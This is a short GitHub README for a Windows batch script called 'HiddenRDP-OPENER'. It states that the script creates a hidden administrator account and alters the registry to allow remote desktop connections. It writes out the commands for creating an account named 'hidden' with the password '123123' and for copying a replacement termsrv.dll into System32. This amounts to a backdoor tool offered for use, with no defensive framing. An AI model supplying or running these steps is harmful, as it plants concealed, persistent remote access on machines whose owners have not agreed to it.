 # HiddenRDP-OPENER
This script make any windows compatible with RDP connection 

<h2>Requirements :</h2>
Windows 7 , Windows 8 , Windows 10 / Not tested yet in Windows XP

<h2>How it works ?:</h2>
This script create a hidden profil ( Administrator privilege ) and change registry parametre to make windows compatible with RDP Connection.

<h2>Configuration:</h2>
You need to open RDPScript.bat
And make this changes :
net user hidden 123123 /ADD
hidden = name of your created account
123123 = password of your account
xcopy "termsrv.dll" "%windir%\System32\" /s /h /q
change termsrv.dll with your full path , ex : C:\Users\comix\Downloads\termsrv.dll

<h2>License</h2>

Copyright © 2015 Soufiyan Ak (Comix)
